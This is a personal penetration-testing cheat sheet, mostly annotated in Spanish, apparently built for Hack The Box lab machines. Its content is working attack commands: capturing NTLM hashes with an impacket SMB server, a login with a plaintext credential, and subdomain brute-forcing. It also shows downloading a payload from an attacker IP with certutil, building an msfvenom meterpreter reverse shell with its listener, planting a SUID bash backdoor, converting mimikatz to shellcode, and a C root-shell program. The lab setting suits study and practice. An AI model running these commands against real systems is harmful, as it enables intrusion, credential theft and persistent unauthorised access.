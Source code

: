 rever



## Local port fowarding

esto desde la maquina atacante, es decir, tu mismo, esto se conecta por ssh a la maquina victima y levanta el tunel por ese puerto.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

## smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## PAYLOAD msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o shell.exe
```


### Listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.20
set LPORT 4444
set ExitOnSession false
exploit -j

```


## Modules



```bash
run post/multi/recon/local_exploit_suggester
```





## Windows-exploit-suggester


tenemos que ejecutar primero esto en la maquina *windows* victima

```cmd
sysinfo
```


----------


```bash
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
```

```bash
/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-05-13-mssb.xls --systeminfo sysinfo
```





## bash SUID

```bash
cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
```

## exe2Shellcode

```bash
xxd -i mimikatz.exe > shellcode.h
```



## Find SUID/SGID files

```bash
find / -perm -4000 2>/dev/null
```



## Root bash in C

```c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```


```bash
gcc poc.c
```






## incursore

```bash
incursore -H 10.10.10.100 -t All
```